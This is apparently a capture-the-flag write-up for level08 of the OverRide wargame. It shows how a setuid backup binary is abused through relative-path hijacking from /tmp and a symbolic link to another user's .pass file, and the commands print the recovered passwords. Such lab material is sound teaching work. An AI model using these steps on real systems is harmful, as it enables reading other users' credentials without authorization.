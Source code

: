 ## TLTR;
Hijacking relative path | Exploit symbolic link
***

```sh
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level08
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level08@192.168.56.101's password: 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

The program opens a file and creates its backup into `/home/users/level08/backups` by writing byte per byte.

The issue is that `./backups/` folder name is used as relative path. Relative path change depending on the working directory’s of the current location. So the relative path can be hijacked by changing working directory to `/tmp` and creating a new `./backups/` folder containing absolute path of `.pass` of `level09`.

Other way is to create a symbolic link to `/home/users/level09/.pass` and pass to as argument to the binary.

# Exploit
By creating new `./backups/` folder in `/tmp`
```sh
level08@OverRide:/tmp$ cd /tmp/
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
With symbolic link
```sh
level08@OverRide:~$ chmod +rwx .
level08@OverRide:~$ ln -s /home/users/level09/.pass pass
level08@OverRide:~$ ./level08 pass
level08@OverRide:~$ cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
